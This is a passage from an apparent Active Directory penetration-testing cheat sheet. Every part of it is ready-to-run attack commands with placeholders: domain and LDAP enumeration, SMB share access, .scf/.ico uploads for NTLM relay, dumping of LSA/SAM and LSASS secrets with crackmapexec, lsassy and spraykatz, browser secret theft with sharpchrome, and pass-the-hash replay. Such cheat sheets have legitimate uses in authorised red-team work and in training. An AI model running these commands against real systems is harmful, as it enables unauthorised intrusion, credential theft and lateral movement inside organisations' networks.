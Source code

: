 ### Domain enum

```text
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
python bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c all
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

### SMB  restricted shares

```text
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

### Low Privilege Escalation

See next cheatsheet LPE Windows or LPE Linux

## Local Admin account

### Dump secrets

#### LSA & SAM

```text
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>
```

#### Browser secrets

```text
sharpchrome.exe
```

### Replay the secrets found

#### LM/NTLM hash or cleartext password with CrackMapExec

```text
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```
